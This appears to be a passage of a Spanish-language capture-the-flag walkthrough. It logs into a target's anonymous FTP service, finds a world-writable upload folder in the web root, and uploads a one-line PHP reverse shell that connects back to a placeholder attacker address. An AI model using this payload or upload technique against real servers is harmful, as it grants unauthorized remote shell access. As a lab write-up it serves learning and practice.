 ## FTP

```shell
ftp anonymous@<IP>
```

Y veremos que si nos deja, si listamos vemos lo siguiente:

```shell
ls
```

Info:

```
229 Entering Extended Passive Mode (|||23034|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
-rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
-rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
-rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload
226 Directory send OK.
```

Vemos que el `ftp` esta dentro de la pagina, por lo que podremos probar a subir un `.php` desde el `ftp` para crearnos una `reverse shell` de la siguiente forma:

## Escalate user www-data

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Una vez creado el archivo lo subiremos desde `ftp` de la siguiente forma:

```shell
cd upload/
put shell.php
```

Info:

```
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||21819|)
150 Ok to send data.
100% |****************************************************************************************************************|   116        1.15 MiB/s    00:00 ETA
226 Transfer complete.
116 bytes sent in 00:00 (261.61 KiB/s)
```
